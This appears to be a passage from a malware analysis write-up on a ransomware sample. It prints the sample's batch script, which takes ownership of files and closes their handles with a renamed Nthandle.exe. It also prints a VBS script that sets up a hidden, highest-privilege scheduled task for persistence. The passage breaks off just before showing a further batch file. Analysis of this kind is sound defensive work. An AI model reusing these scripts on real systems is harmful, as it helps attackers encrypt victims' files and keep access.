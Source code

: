 ```bash
md5sum ATXO3fAc.exe 
2f5b509929165fc13ceab9393c3b911d  ATXO3fAc.exe
```

The binary is linked to the script CEp5f0ji.bat

```bash
cacls %1 /E /G %USERNAME%:F /C
takeown /F %1
set FN="%~nx1"
cd /d "%~dp0"
FOR /F "UseBackQ Tokens=3,6 delims=: " %%I IN (`ATXO3fAc.exe -accepteula %FN% -nobanner`) DO (ATXO3fAc.exe -accepteula -c %%J -y -p %%I -nobanner)
```

This script grants the current user full control over a specified file and takes ownership of it.
Then it use the binary ATXO3fAc.exe (Nthandle.exe) to close any handle related to the file.

**To sum up**:

This script allow the attacker deal with file permission and handles as they could prevent file encryption.


The file bad_3F79A31A837D5316.txt contain a list of file and exe, it was probably used to feed the script CEp5f0ji.bat as it needs a fileName and path as an argument :

```bash
ATO_OPER: C:\ProgramData\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Start Menu\Programs\Immersive Control Panel.lnk
ATO_OPER: C:\ProgramData\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Microsoft\UEV\Templates\SettingsLocationTemplate2013.xsd
ATO_OPER: C:\ProgramData\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Microsoft\AppV\Setup\OfficeIntegrator.ps1
[...]
```

Now lets take a look at the scrip zTYfgvad.vbs :

```batch
Option Explicit
dim W
Set W = CreateObject("Wscript.Shell")
W.Run "cmd.exe /C schtasks /Create /tn DSHCA /tr ""C:\Users\arthur\AppData\Roaming\M1nLSX9d.bat"" /sc minute /mo 5 /RL HIGHEST /F", 0, True
W.Run "cmd.exe /C schtasks /Run /I /tn DSHCA", 0, False
```

This script creates a scheduled task named "DSHCA" that runs the batch file "M1nLSX9d.bat" every 5 minutes with the highest privileges.
Then, it immediately runs the newly created task.


Here is the content of the file : M1nLSX9d.bat 
